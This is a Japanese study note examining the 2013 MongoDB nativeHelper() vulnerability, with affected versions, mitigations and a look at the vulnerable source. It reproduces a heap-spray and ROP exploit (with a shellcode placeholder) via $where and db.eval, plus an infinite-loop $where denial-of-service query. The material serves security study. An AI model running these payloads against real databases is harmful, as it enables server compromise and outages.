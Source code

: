 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

- その1: MongoDB 2.4へのバージョンアップする  
- その2: noscriptingオプションをつけて起動する


## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

evalでも同様に落ちる
```
db.eval(function() {shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);})
```

## 何が問題？

native_helper()内のNativeFunction funcがxというJavaScriptのオブジェクトをチェック無しでcallすることが問題（らしい）  
  
src/mongo/scripting/engine_spidermonkey.cpp
```js
JSBool native_helper( JSContext *cx , JSObject *obj , uintN argc, jsval *argv , jsval *rval ) {
        try {
            Convertor c(cx);
            NativeFunction func = reinterpret_cast(
                    static_cast( c.getNumber( obj , "x" ) ) );
            void* data = reinterpret_cast<void*>(
                    static_cast( c.getNumber( obj , "y" ) ) );
            verify( func );

            BSONObj a;
            if ( argc > 0 ) {
                BSONObjBuilder args;
                for ( uintN i = 0; i < argc; ++i ) {
                    c.append( args , args.numStr( i ) , argv[i] );
                }
                a = args.obj();
            }

            BSONObj out;
            try {
                out = func( a, data );
            }
            catch ( std::exception& e ) {
```

run、run_とmongo shellでソースを見ると、{x : "xxxxx"}というハッシュになっていることがわかる
```js
> run
function () {
    return nativeHelper.apply(run_, arguments);
}

>run_
{ "x" : 4295168976 }

```

runはmongo shellから、shellのコマンドを実行するための関数。  
なのでチェック無しで実行しているのだろうか（勉強会での議論に続く）



## 今回とは別のダメな例

```js
db.test.find({'$where':'while(1){};return true;'}) 
```

## 2.4から$whereのセキュリティが向上した

2.4 からグローバルオブジェクトにアクセスできない制限が入った

## 現実的なリスクを考える

どうなんでしょうか。ユーザーのインプットをそのままJavaScriptとして評価するのが条件？  
（活発な意見、求む）

